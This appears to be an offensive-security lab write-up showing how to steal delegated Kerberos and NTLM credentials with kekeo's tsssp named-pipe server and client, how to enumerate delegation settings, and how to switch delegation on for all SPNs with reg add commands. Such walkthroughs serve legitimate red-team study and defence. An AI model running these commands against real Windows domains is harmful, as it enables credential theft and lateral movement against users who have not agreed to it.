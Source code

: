 # Dumping Delegated Default Kerberos and NTLM Credentials w/o Touching LSASS

This lab is related to dumping cached Kerberos and NTLM passwords without touching LSASS. This is possible due to Active Directory feature called Credentials Delegation.

## Credential Delegation

Credential Delegation is a feature that allows domain administartors to authorize certain machines or to be more precise - certain SPNs, to accept delegated passwords. In other words, this means that certain services on certain machines can be set to allow users to authenticate without the need to supply their credentials interactively - almost like a Single Sign On.

To illustrate - the below shows how a user spotless@offense attempts to access the termsrv/ws2.offense.local and is prompted to enter his credentials - this means credential delegation is not set for the termsrv \(RDP\) on ws02$ and therefore the machine ws02 does not accept delegated passwords, which results in a password prompt for the user.

{% hint style="info" %}
Default Password is a currently logged on user's password.
{% endhint %}

![](../../.gitbook/assets/annotation-2019-08-20-224950.png)

If the Credentials Delegation was enabled as shown below: 

![](../../.gitbook/assets/annotation-2019-08-20-225941.png)

...the machines that are running a termsrv \(RDP\) service would now be allowed to authenticate users who are delegating their credentials. 

Below shows how the same user spotless is attempting to connect to RDP on ws02 and gets authenticated immediately without being prompted for the password - this means that the user's credenentials were delegated and the termsrv/ws2.offense.local accepted them due to the GPO change we described earlier whereby Credential Delegation was enabled:

![](../../.gitbook/assets/rdp-password-delegation.gif)

## Dumping Kerberos Credentials

If credential delegation is set up, credentials can be dumped without touching lsass with a tool called kekeo.

Let's spin up a tsssp named pipe server where targets of whom the credentials we want to steal, will connect to, on the compromised workstation ws01 \(running as SYSTEM\):

{% code-tabs %}
{% code-tabs-item title="attacker@ws01.offense.local" %}
```text
// needs to run as NT SYSTEM
tsssp::server
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% hint style="info" %}
Kekeo on ws01 must be running as NT\SYSTEM for this to work
{% endhint %}

Now, let's connect to the tsssp server on ws01 from the target computer ws02 \(we want currently logged on user's from ws02 credentials to be stolen by being sent to the tsssp server on ws01 over the named pipe\):

{% code-tabs %}
{% code-tabs-item title="attacker@ws02.offense.local" %}
```text
tsssp::client /target:termsrv/ws01.offense.local /pipe:\\ws01.offense.local\pipe\kekeo_tsssp_endpoint
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/password-delegation-password-dump-via-named-pipes.gif)

## Dumping NTLM Credentials

The same technique applies to NTLM authentication. For the technique to work with NTLM credentials, below needs to be enabled in AD in Computer Configuration &gt; Policies &gt; Administrative Templates &gt; System &gt; Credential Delegation:

![](../../.gitbook/assets/image%20%2878%29.png)

Differently from dumping kerberos credentials, the NTLM delegated credential dumping attack can be performed locally on the target system - we only need two kekeo instances running as low privileged users, unlike with kerberos credential dumping where the tsssp server had to be running as SYSTEM.

Let's spin up the server on one console:

{% code-tabs %}
{% code-tabs-item title="attacker@ws02" %}
```text
// running as ws02\spotless
tsssp::server
```
{% endcode-tabs-item %}
{% endcode-tabs %}

And connect to it from another console:

{% code-tabs %}
{% code-tabs-item title="attacker@ws02" %}
```text
// running as ws02\spotless
tsssp::client /target:termsrv/ws02.offense.local
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Below shows \(left\) a tsssp server is created on the ws02 system running under spotless user's context. On the right, another console running as ws02\spotless which is then connected to the `\\.\pipe\kekeo_tsssp_endpoint` named pipe, revealing user's `ws02\spotless` NTLM credentials in the console running tsssp server on the left:

![](../../.gitbook/assets/image%20%28146%29.png)

## Enumerating Delegated Credentials Locally

Once on the box, we can check if credential delegation is turned on:

```text
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation
```

Below shows what credential delegation is enabled on the system \(represented with 0x1\):

![](../../.gitbook/assets/image%20%2840%29.png)

We can then check what SPNs accept delegated credentials:

```text
HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation\AllowDefaultCredentials
```

Below shows that the box we have access to is allowed to delegate credentials to all termsrv SPNs - all RDP services:

![](../../.gitbook/assets/image%20%2844%29.png)

## Enumerating Delegated Credentials via AD

```csharp
gpresult /h report.html
# or Get-GPOReport if you have access to AD admin tools
```

![](../../.gitbook/assets/image%20%2838%29.png)

Additionally, we can use [Parse-Polfile](https://github.com/PowerShell/GPRegistryPolicyParser) to parse the registry.pol of the linked GPO. First of, let's find the GPO that is being applied to the user spotless:

```text
Get-NetGPO -UserIdentity spotless
```

![](../../.gitbook/assets/image%20%2872%29.png)

and then parse the policy file:

```text
Parse-PolFile -Path "\\offense.local\sysvol\offense.local\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Registry.pol"
```

![](../../.gitbook/assets/image%20%2868%29.png)

## Enabling Credential Delegation

If you have admin rights on the compromised box, you can enable all credential delegation like so:

{% code-tabs %}
{% code-tabs-item title="attacker@target" %}
```csharp
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation /v AllowDefaultCredentials /t REG_DWORD /d 1
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation /v ConcatenateDefaults_AllowDefault /t REG_DWORD /d 1
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation\AllowDefaultCredentials /v 1 /t REG_SZ /d "*"
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation /v AllowDefCredentialsWhenNTLMOnly /t REG_DWORD /d 1
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation /v ConcatenateDefaults_AllowDefNTLMOnly /t REG_DWORD /d 1
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation\AllowDefCredentialsWhenNTLMOnly /v 1 /t REG_SZ /d "*"

# delete all
reg delete HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation /f
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## References

{% embed url="https://clement.notin.org/blog/2019/07/03/credential-theft-without-admin-or-touching-lsass-with-kekeo-by-abusing-credssp-tspkg-rdp-sso/" %}

{% embed url="https://github.com/PowerShell/GPRegistryPolicyParser" %}

